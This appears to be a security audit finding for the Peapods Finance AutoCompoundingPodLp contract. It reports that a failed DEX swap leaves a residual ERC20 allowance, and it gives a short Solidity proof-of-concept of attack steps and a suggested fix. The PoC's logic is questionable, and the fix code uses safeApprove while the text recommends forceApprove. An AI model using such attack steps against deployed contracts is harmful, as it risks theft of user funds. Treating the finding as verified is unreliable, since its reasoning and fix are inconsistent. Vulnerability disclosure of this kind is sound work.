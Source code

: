 Bitter Honey Lion

Medium

# Improper Management of ERC20 Allowance Residue Leading to Token Theft Risk

Summary: In the _tokenToPodLp function, when a DEX transaction fails, the allowance is not fully cleared, leaving a residue that can be maliciously exploited.

Detailed Description:

In the _tokenToPodLp function (code snippet L210-240), when DEX_ADAPTER.swapV3Single fails, only safeDecreaseAllowance is called to reduce the allowance, but it is not fully reset to 0. An attacker can exploit the residual allowance in subsequent transactions to transfer tokens.

Vulnerability: Insufficient Allowance Reset

Impact: An attacker can steal the balance of _rewardsToken in the contract, leading to user fund losses.

PoC:

<SOLIDITY>
// Attack steps:
// 1. Trigger a DEX transaction failure (e.g., set maxSwap limit)
address maliciousToken = pod.lpRewardsToken();
uint256 initialBalance = IERC20(maliciousToken).balanceOf(address(autoCompoundingPodLp));

// 2. Trigger allowance residue (partial allowance not cleared)
vm.prank(owner);
autoCompoundingPodLp.processAllRewardsTokensToPodLp(0, block.timestamp);

// 3. Exploit the residual allowance to transfer tokens
uint256 remainingAllowance = IERC20(maliciousToken).allowance(address(autoCompoundingPodLp), address(DEX_ADAPTER));
if (remainingAllowance > 0) {
    vm.prank(attacker);
    DEX_ADAPTER.swapV3Single(maliciousToken, attackerToken, REWARDS_POOL_FEE, remainingAllowance, 0, attacker);
}
</SOLIDITY>

Recommendation:

Use forceApprove to forcibly reset the allowance (reference 1):

Code snippet:https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/AutoCompoundingPodLp.sol#L210-240
<SOLIDITY>
// Fix code (replace safeDecreaseAllowance):
IERC20(_rewardsToken).safeApprove(address(DEX_ADAPTER), 0);
</SOLIDITY>